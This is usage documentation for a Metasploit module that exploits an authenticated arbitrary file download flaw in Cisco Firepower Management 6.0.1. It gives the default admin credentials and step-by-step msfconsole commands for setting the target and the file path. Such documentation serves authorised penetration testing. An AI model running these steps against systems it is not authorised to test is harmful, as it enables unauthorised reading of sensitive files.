 This module exploits a vulnerability found in Cisco Firepower Management console. A logged in
user can abuse the report viewing feature to download an arbitrary file. Authentication is
required to exploit this vulnerability.


## Vulnerable Application

This module was written specifically against Cisco Firepower Management 6.0.1 (build 1213) during
development. To test, you may download the virtual appliance here:

https://software.cisco.com/download/release.html?mdfid=286259687&softwareid=286271056&release=6.0.1&flowid=54052

## Verification Steps

To use this module, first you need to know an username and password. The management console uses
admin:Admin123 by default:

1. Start msfconsole
2. ```use auxiliary/scanner/http/cisco_firepower_download```
3. ```set USERNAME [user]```
4. ```set PASSWORD [pass]```
5. ```set RHOSTS [IP]```
6. ```set FILEPATH [file to download]```
7. ```run```

If the file is found, it will be saved in the loot directory. If not found, the module should
print an error indicating so.
